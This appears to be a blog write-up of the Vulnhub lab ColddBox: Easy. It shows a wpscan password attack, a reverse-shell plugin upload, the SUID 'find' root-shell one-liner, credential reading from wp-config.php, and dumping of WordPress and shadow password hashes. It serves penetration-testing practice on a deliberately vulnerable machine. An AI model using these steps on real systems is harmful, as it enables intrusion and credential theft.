 ```yaml
---
layout: post
title:  "Vulnhub - COLDDBOX: EASY"
date:   2020-10-26 21:55:00 +1100
category: hacking
---
```


## Introduction
*Welcome to ColddBox Easy, it is a Wordpress machine with an easy level of difficulty, highly recommended for beginners in the field, good luck! Please share your feedback: "https://twitter.com/C0ldd__”*

This is [ColddBox: Easy](https://www.vulnhub.com/entry/colddbox-easy,586/) from vulnhub. Last one before bedtime - this will be brief.

## Ports
This box just has HTTP on port 80 and SSH on a non-standard port: 4512. We won't be needing it anyway.

## Website
The website is running Wordpress, and wpscan finds several users. I run a password attack:

``
root@kali:/opt/vulnhub/coldbox# wpscan --url http://192.168.1.128 -U 'hugo,c0ldd,philip' -P /usr/share/seclists/Passwords/probable-v2-top12000.txt
``

And find the password for *c0ldd*

>[!] Valid Combinations Found:  
 | Username: c0ldd, Password: 9876543210

I stop the scan at this point and login. *c0ldd* is the admin and we have an older version of Wordpress, so I upload a reverse shell as a plugin and get on the box.

## Privesc
We've got **find** with the SUID bit set, so that's our path to root.

[GTFOBins](https://gtfobins.github.io/gtfobins/find/#suid) says: 

``
./find . -exec /bin/sh -p \; -quit
``

{% highlight shell %}
www-data@ColddBox-Easy:/var/www/html$ find . -exec /bin/sh -p \; -quit
find . -exec /bin/sh -p \; -quit
# cd /root
cd /root
# ls 
ls 
root.txt
# cat root.txt
cat root.txt
wqFGZWxpY2lkYWRlcywgbcOhcXVpbmEgY29tcGxldGFkYSE=
{% endhighlight %}

That was that. 


## Other stuff
I also found the database creds:
>/var/www/html/wp-config.php:define('DB_PASSWORD', 'cybersecurity');  
/var/www/html/wp-config.php:define('DB_USER', 'c0ldd');

So I logged in and grabbed the hashes:

{% highlight shell %}
www-data@ColddBox-Easy:/var/www/html$ mysql --host=localhost -u c0ldd -p
mysql --host=localhost -u c0ldd -p
Enter password: cybersecurity

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 13593
Server version: 10.0.38-MariaDB-0ubuntu0.16.04.1 Ubuntu 16.04

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show databases;
show databases;
+--------------------+
| Database           |
+--------------------+
| colddbox           |
| information_schema |
+--------------------+
2 rows in set (0.00 sec)

MariaDB [(none)]> use colddbox;
use colddbox;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [colddbox]> select * from wp_users;
select * from wp_users;
+----+------------+------------------------------------+---------------+----------------------+----------+---------------------+---------------------+-------------+--------------------+
| ID | user_login | user_pass                          | user_nicename | user_email           | user_url | user_registered     | user_activation_key | user_status | display_name       |
+----+------------+------------------------------------+---------------+----------------------+----------+---------------------+---------------------+-------------+--------------------+
|  1 | c0ldd      | $P$BJs9aAEh2WaBXC2zFhhoBrDUmN1g0i1 | c0ldd         | c0ldd@localhost.com  |          | 2020-09-24 15:06:57 |                     |           0 | the cold in person |
|  2 | hugo       | $P$B2512D1ABvEkkcFZ5lLilbqYFT1plC/ | hugo          | hugo@localhost.com   |          | 2020-09-24 15:48:13 |                     |           0 | hugo               |
|  4 | philip     | $P$BXZ9bXCbA1JQuaCqOuuIiY4vyzjK/Y. | philip        | philip@localhost.com |          | 2020-10-19 17:38:25 |                     |           0 | philip             |
+----+------------+------------------------------------+---------------+----------------------+----------+---------------------+---------------------+-------------+--------------------+
3 rows in set (0.00 sec)
{% endhighlight %}

The hash for Hugo cracked easily but he's not a system user so I logged into Wordpress, but there was nothing interesting there. The other one didn't want to crack, so that was a dead end anyway. 

c0ldd didn't reuse his Wordpress password for his Linux account, so I couldn't *su* to him. I grabbed his hash from */etc/shadow* and it's running in Hashcat but hasn't broken yet ... I'm off to bed :)
